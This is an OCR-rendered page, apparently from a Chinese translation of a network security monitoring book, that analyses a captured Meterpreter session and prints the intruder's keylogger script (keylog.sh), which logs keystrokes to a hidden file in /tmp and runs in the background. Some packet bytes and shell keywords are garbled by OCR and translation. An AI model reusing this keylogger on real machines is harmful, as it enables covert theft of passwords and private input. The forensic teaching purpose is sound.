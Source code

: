 .sh 表示涉及键盘记录器。如果入侵者能够捕获按键

在受害者的计算机上，他可以访问各种信息，并可能获取其他

系统。脚本的名称后面似乎是脚本本身，如

以及用于保存记录的按键日志的文件名：*/tmp/.xkey.log*。

有了这些信息，我们可以在受害者硬盘上查找该文件，

假设入侵者没有删除它，或者系统没有在之后删除它

重启。

DST: ................core_channel_open....)....64467327797845790259721795802753........3std api_fs_file........6........................ **keylog.sh**.........wbb.

SRC: .

SRC: ..c............core_channel_open....)....64467327797845790259721795802753........2.......

.........

DST: ................core_channel_write....)....05544054210663822153934887650143........2.....

..X...4#!/bin/bash

DST: export DISPLAY=:0.0

DST: xinput list

DST: echo -e "KBD ID ?"

DST: 读取 kbd

DST: xmodmap -pke > **/tmp/.xkey.log**

DST: script -c "xinput test $kbd" | cat >> /**tmp/.xkey.log** & DST: echo "键盘记录日志可以从 **/tmp/.xkey.log** 下载"

DST: echo "使用 meterpreter 下载功能"

DST: echo "按 CTLR+C 退出此会话，**键盘记录器将在后台运行**"

*列表 11-14：键盘记录器引用*

入侵者似乎接下来执行了一个 ls -al 命令。(列表 11-15

仅显示输出的一部分，尽管整个内容都在记录中。)

客户端妥协 **253**

[www.it-ebooks.info](http://www.it-ebooks.info/)

DST: ...s............core_channel_write....)....27069574503151630704223424155348........2......

.....4**ls -al**

**DST:** ............

SRC: .

SRC: ..d............core_channel_write....)....27069574503151630704223424155348...............

..........
